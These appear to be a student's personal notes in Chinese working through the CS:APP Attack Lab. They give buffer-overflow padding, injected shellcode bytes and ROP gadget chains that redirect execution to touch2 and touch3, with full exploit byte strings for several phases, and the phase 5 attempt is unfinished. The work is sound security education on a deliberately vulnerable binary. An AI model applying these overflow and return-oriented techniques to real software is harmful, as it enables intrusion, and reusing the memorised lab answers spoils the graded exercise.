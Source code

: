 # 1.
test call getbuf
getbuf给了40个字节的缓冲区

![[Pasted image 20250905151221.png]]
40个占位字节
接上touch1 的地址
# 2.
![[Pasted image 20250905151251.png]]
``` 
0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
7:   68 ec 17 40 00          push   $0x4017ec
c:   c3                      ret
```
指令13字节 27个占位 溢出的地址为getbuf的栈指针处
ret溢出地址时 执行三行攻击代码
攻击代码的ret先从栈里读地址 读来的地址是touch2的 然后jump到touch2

# 3.
match 和cmp可能覆盖getbuf的栈帧
没说test 所以test是安全的
卡在这好久
但是怎么验证test安全啊

每当一个函数被调用时，一个新的栈帧就被创建（压栈）；当函数返回时，其栈帧就被销毁（弹栈）。
实际上是ret的弹栈让栈指针移动 栈帧空间就可用视为被消除了
test调用getbuf 
	getbuf调用gets
		gets ret
	getbuf ret
test本应return时 调用了touch3
	touch3
		hexmatch
		strncmp
test的栈帧在调用touch3时都未消失
![[Pasted image 20250906103049.png]]


getbuf分配栈帧之前 栈指针值是0x5561dca0 指向0x401976
getbuf执行完以后不回test了
去touch3
dca0到dca7放touch3的地址

dca8及其高位是test的栈帧其他部分
由于test现在没用了 可以被覆盖 这里可用来放cookie

字符串在内存中的存储和读取**总是从低地址到高地址顺序**，这与字节序（大端/小端）无关

攻击代码中包含
##### 1.
![[Pasted image 20250906105655.png]]
指令
cookie赋值rdi 
ret到touch3

##### 2.
ret到指令开始处 使字节形式的指令可被执行

执行注射的攻击代码是从低地址开始执行
即 0x5561dca0 -0x28 =0x5561dc78
ret到78这个地址
48 c7 c7 a0 dc 61 55                                      
68 fa 18 40 00         
c3               



```
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3   //指令
11 22 33 44 55 66 77 88 99 00 
11 22 33 44 55 66 77 88 99 00            //占位
11 22 33 44 55 66 77 
78 dc 61 55 00 00 00 00                  // touch3的地址
35 39 62 39 39 37 66 61 00               // cookie的字节字符串形式
```

# 4
![[Pasted image 20250908092401.png]]
nop就相当于这一行是占位的 别的指令也会让程序计数器变动

![[Pasted image 20250908092514.png]]

level2中
注入攻击代码时

其实是在做三件事
rdi赋值
栈顶设为touch2地址
弹栈
jump

farm里没找到cookie值的构建方式
看到48 89 c7 本来想用mov rax rdi的

也没找到touch2的地址表现形式

**看到题的时候应该意识到这些立即数没有意义的**
**立即数应该是用来凑指令的**

作为攻击者可以控制栈
所以这两个应该是要通过栈自己输入的





### 停一下
让卡成傻逼了
捋一下
上午没推动是因为 思路单一 且难以实现
教训是
1. 优化解决问题的**流程**

判断思路可行性以后再推进 推不动就看看能不能换思路
	1. 通过立即数用rax和rdx凑出个cookie值来 最扯淡的一个 盯着这个猛钻牛角尖
	2. 栈里写入cookie pop进rax等寄存器再 mov 进rbx 。能直接pop进rbx的话更好
	3. cookie放栈里 rsp偏移得到cookie地址 再mov
2. 知识漏洞
	1. pop和push会让栈指针如何移动 
	2. ret时栈帧消失 栈指针怎么动的
	3. 缓冲区什么时候消失的 栈指针和缓冲区生灭的关系
现在我们需要做的是
把栈指针的移动搞清楚 
剩下的应该迎刃而解了

哈哈 没好好看汇编代码
1. pop先mov再+8 push先-8再mov
2. ret本质是pop+jump 。栈指针+8
3. ret之前有指令让栈指针+0x28
脑子浑着不知道在搞啥 明天早上没搞完的问题细节回想清楚再开搞
## 解
没有5f 不能直接pop进rdi
找别的
![[Pasted image 20250908200050.png]]
```
4019ab
pop rax
nop
ret
```
![[Pasted image 20250908195450.png]]
`mov rax rdi
`ret

ret以后rsp+8
```


ec 17 40 00 00 00 00 00	    <-rsp 4 ret 后+8到这里   4019a2段的ret 这句进rip
a2 19 40 00 00 00 00 00     <-rsp 3 4019ab段ret的pop 这句进rip
                            <-rsp 2 pop后栈指针上移到这里
fa 97 b9 59 00 00 00 00      4019ab段pop先读cookie 进rax
						    <-rsp 1       getbuf ret后+8到这里
ab 19 40 00 00 00 00 00                   getbuf ret时 这一句进rip
                            <-rsp 0       getbuf中rsp+0x28后到这里
11 22 33 44 55 66 77 88        
11 22 33 44 55 66 77 88      //占位
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
```
程序指向时 由低地址到高地址 读字节也是由低到高

然后需要ret到touch2
move进别的寄存器
然后mov进rsp
ret进touch2


![[Pasted image 20250908202627.png]]
`mov rax rsp`
`ret`

上面的代码从上到下对应地址由高到低的
答案应该这样
```
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
unix> ./hex2raw < My_ans.txt | ./rtarget -q

过了 嗨害嗨


# 5
挑战一把
原来的3
mov 地址 rdi
cookie是放test的栈帧里的 位置是自己选的 可控的 
现在位置会变的

怎么放cookie字符形式呢

1. 放栈上 mov rsp rdi
2. 栈mov到中转寄存器 mov进rdi

找到了 rax中转

![[Pasted image 20250908212114.png]]
```
401a06
mov rsp rax
ret
```




```


35 39 62 39 39 37 66 61 00  401a06的rsp把这行的起始地址进rsi  我靠需要挪一下栈指针
//getbuf ret 的pop后rsp到这里
06 1a 40 00 00 00 00 00  getbuf ret时这行进rip
//getbuf rsp+0x28到这里
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88低


```
**我靠需要挪一下栈指针**
pop地址进别的寄存器再mov进rsp或许能解决
但是没有指令

![[Pasted image 20250908214302.png]]
思路断了 

通过互联网搜索注意到有add_xy     ：）
所以说我们连有啥函数都没看完

rsp赋给rdi 然后算rsi应该是几
给rax以后 再mov进rdi

但是没有mov rsp rdi
只有mov rsp rax


![[Pasted image 20250908212114.png]]
```
401a06
mov rsp rax
ret
```

**有mov eax edi** 
![[Pasted image 20250909212904.png]]


rsi的话
没有pop rsi

```








	//getbuf rsp+0x28到这里
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88
11 22 33 44 55 66 77 88低








```
